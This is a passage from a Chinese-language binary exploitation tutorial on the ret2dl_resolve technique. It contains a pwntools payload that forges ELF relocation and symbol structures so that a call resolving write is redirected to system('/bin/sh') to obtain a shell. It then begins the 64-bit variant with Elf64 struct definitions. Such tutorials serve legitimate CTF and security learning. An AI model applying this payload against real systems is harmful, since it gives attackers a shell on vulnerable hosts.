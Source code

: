 ```
    Elf32_Addr st_value;     // Symbol value
    Elf32_Word st_size;      // Symbol size
    unsigned char st_info;   // Symbol type and binding
    unsigned char st_other;  // Symbol visibility under glibc>=2.2
    Elf32_Section st_shndx;  // Section index
} Elf32_Sym;

```

(4) 将伪造的结构体和必要数据放在 bss 新栈上，从 plt0_addr 开始执行，调用 write 函数，重新装载 write 函数，劫持成 system 函数，同时修改参数为 binsh，直接 getshell。

```
#注释头
 
#执行数据：
payload = ""
payload += "AAAA"              #位于new_stack_addr,占位用于pop ebp
payload += p32(plt0_addr)      #位于new_stack_addr+0x04,调用PLT[0]
payload += p32(fake_reloc_arg) #位于new_stack_addr+0x08,传入伪造的reloc_arg
payload += p32(0)              #位于new_stack_addr+0x0c,system函数返回值
payload += p32(binsh_addr)     #位于new_stack_addr+0x10,修改参数为/bin/sh字符串地址
 
#伪造的内容数据：
payload += "A"*0x3c            #位于new_stack_addr+0x14,padding
payload += fake_Elf32_Rel_data #位于new_stack_addr+0x50,Elf32_Rel结构体
payload += "AAAA"              #位于new_stack_addr+0x58，padding
payload += fake_Elf32_Sym_data #位于new_stack_addr+0x5c,Elf32_Sym结构体
payload += "system\x00\x00"    #位于new_stack_addr+0x6c,传入system函数名
payload += "/bin/sh\x00"       #位于new_stack_addr+0x74,传入binsh字符串
 
io.send(payload)
io.interactive()

```

▲不同版本的 libc 也不太一样，在 libc2.27 及以下试过都行，但 2.30 及以上好像就不可以，可能版本改了多了一些检查吧。

### ★64 位程序：

1. 完全一样，只是程序改成了 64 位，在 64 位条件下有些发生了变化：

(1) 两大结构体发生变化：

```
#注释头#Elf64_Rela结构体：大小为0x18typedef struct
{
  Elf64_Addr  r_offset;          /(0x08)* Address */
  Elf64_Xword  r_info;           /(0x08)* Relocation type and symbol index */
  Elf64_Sxword  r_addend;        /(0x08)* Addend */
} Elf64_Rela;#Elf64_Sym结构体：大小为0x18typedef struct
{
  Elf64_Word  st_name;           /(0x04)* Symbol name (string tbl index) */
  unsigned char  st_info;        /(0x01)* Symbol type and binding */
  unsigned char  st_other;       /(0x01)* Symbol visibility */
  Elf64_Section  st_shndx;       /(0x02)* Section index */
  Elf64_Addr  st_value;          /(0x08)* Symbol value */
  Elf64_Xword  st_size;          /(0x08)* Symbol size */
} Elf64_Sym;

```
